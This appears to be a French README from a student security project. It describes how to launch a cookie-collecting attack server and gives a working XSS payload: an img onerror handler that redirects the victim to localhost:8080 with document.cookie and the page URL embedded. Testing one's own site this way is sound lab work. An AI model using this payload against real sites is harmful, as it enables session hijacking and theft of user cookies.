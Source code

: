 # Lancement d'un récupérateur de cookies
## serveur d'attaque
1. Créer un dossier se nommant `resultats_attaques` dans `projet-site-securise/ATTAQUES/xss/`
2. Se placer dans `projet-site-securise/ATTAQUES/xss/` et lancer un terminal ici.
3. Exécuter avec python le script `serveur_xss.py`
## Utilisation de l'attaque
Le fonctionnement est tel décrit sur le [Google Docs «réalisation des attaques sur le site»](https://docs.google.com/document/d/1wYIdYXTzjgw3fN62__UIXJCGjMx2iFbdS81DxBEk3H4/edit#heading=h.aqvvpr48nmsg)
L'injection XSS passe par ceci : 
```
<img src="blabla" onerror=window.location.href="http://localhost:8080/URLSITERECHERCHE".replace('RECHERCHE',JSON.stringify(document.cookie)).replace('URL',JSON.stringify(document.URL))>
```
